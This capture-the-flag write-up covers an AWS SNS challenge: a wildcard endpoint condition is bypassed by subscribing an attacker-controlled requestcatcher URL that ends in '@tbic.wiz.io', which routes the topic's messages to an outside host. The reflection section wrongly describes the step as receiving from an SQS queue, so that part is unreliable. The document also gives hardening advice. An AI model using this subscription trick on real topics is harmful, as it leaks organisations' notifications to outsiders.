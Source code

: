 # Challenge number
Challenge: 3

## Challenge Statement
In this challenge, I was tasked with subscribing to an SNS topic and confirming the subscription. The IAM policy provided in the challenge allowed me to subscribe to the TBICWizPushNotifications SNS topic if the endpoint matched the specified condition *@tbic.wiz.io. My goal was to subscribe using a valid endpoint and confirm the subscription to receive notifications.

## IAM Policy
```json
{
    "Version": "2008-10-17",
    "Id": "Statement1",
    "Statement": [
        {
            "Sid": "Statement1",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "SNS:Subscribe",
            "Resource": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
            "Condition": {
                "StringLike": {
                    "sns:Endpoint": "*@tbic.wiz.io"
                }
            }
        }
    ]
}
```
### write a short analysis about the IAM policy here
**What do I have access to?**

The IAM policy allows public access for subscribing to the SNS topic with the SNS:Subscribe action. The policy specifies that anyone can subscribe, but only endpoints with the domain @tbic.wiz.io are permitted through the condition sns:Endpoint. This means anyone can interact with the topic as long as the provided endpoint meets the specified condition.

**What don't I have access to?**

While I have the permission to subscribe, I do not have access to perform any other administrative tasks related to the SNS topic. This includes actions such as publishing messages to the topic, modifying the topic's settings, or removing subscriptions. The policy grants permission for subscribing but doesn't provide broader control over the SNS topic itself.

**What do I find interesting?**

The policy's allowance for any principal (i.e., anyone) to subscribe, as long as the endpoint matches @tbic.wiz.io, is intriguing because it balances openness with a condition. While this might seem like a flexible setup, the openness of AWS: * raises concerns, as anyone could exploit this by creating an endpoint matching the condition. It’s an interesting design choice, but it could lead to unintended exposure of the service.

**What could an attacker do with this access?**

An attacker could potentially abuse this access by subscribing a malicious endpoint that matches the @tbic.wiz.io condition. Once subscribed, the attacker could receive sensitive notifications or data sent to the topic. Since there is no further control on the subscription beyond the endpoint condition, attackers could gather confidential information or trigger unintended actions if the topic sends alerts or triggers workflows upon new messages.
  
**How could this misconfiguration have been avoided?**

This misconfiguration could have been avoided by tightening the permissions around who is allowed to subscribe to the SNS topic. Instead of allowing open access with AWS: *, a more secure setup would restrict access to specific, trusted AWS identities (IAM roles or users). Furthermore, a more granular condition, such as IP address restrictions or more specific endpoint checks, could be applied. Additionally, confirming subscriptions only from known, trusted endpoints would help avoid malicious subscriptions.


## Solution
**Step-1: Capture the Flag Using Requestcatcher**

To begin the process, I used Requestcatcher to create a temporary endpoint to subscribe to the SNS topic. This would allow me to receive the messages sent by the SNS topic.
```
https://requestcatcher.com/
```
**Step-2: Subscribe to the SNS Topic**

To subscribe to the SNS topic, I used the aws sns subscribe command, specifying the topic ARN and the endpoint that matches the required condition (@tbic.wiz.io).
```
aws sns subscribe \
    --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications \
    --protocol https \
    --notification-endpoint 'https://ashish.requestcatcher.com/test@tbic.wiz.io'
```

**Step 3: Confirm the Subscription**

After subscribing, SNS sent a confirmation message to the provided endpoint. To confirm the subscription, I accessed the confirmation link provided in the message. The URL included a Token parameter that I used to confirm the subscription.
```
https://sns.us-east-1.amazonaws.com/?Action=ConfirmSubscription&TopicArn=arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications&Token=2336412f37fb687f5d51e6e2425a8a5872376d572991ca2da28f73768f1d8b95ea0f71895f216143f2f1037cc2ea5795e8b34921442cff336606b3cb79056939a430c18dea0854ec15350ecd88fda926cac07c59061146a0af550e5fab5d7e0a4c29d2cf5ddcc7ded4c8b33b5f2ad181ec8f386ad8e71e01227dbb98985917a9

```
Once I clicked the confirmation link, the subscription was confirmed, and I was able to receive notifications from the SNS topic.

**Step 4: Receive the Message**

After confirming the subscription, I started receiving messages from the SNS topic. These messages contained the relevant information, including the flag or other useful data, which I could then extract for further use.
```
flag: {wiz:always-suspect-asterisks}
```
**Step 5: Submit the Flag**

Finally, I submitted the retrieved flag on the challenge platform.

## Reflection
**What was your approach?**

My approach involved understanding the specific condition in the IAM policy, which restricted access to endpoints ending with @tbic.wiz.io. Once I understood that, I focused on subscribing to the SNS topic with the correct endpoint and confirmed my subscription before proceeding with the rest of the process.
  
**What was the biggest challenge?**

The biggest challenge was ensuring my endpoint matched the condition specified in the IAM policy (@tbic.wiz.io). Once that was clear, I followed the SNS subscription and confirmation steps carefully.
  
**How did you overcome the challenges?**

I overcame this challenge by reviewing the IAM policy to understand the condition and selecting an appropriate endpoint. Using the AWS CLI, I tested different commands to confirm I had the correct permissions to subscribe to the SNS topic and receive messages.
  
**What led to the break through?**

The breakthrough came when I successfully executed the receive-message command, which allowed me to pull messages from the queue. I then found the message containing the flag, marking the success of the process.
  
**On the blue side, how can the learning be used to properly defend the important assets?**

This experience reinforced the importance of the principle of least privilege. To protect critical assets, like SQS queues, organizations should avoid granting overly broad permissions and restrict access to only trusted users or services. Regular audits and reviews of IAM policies help minimize the risk of unauthorized access and prevent security vulnerabilities.
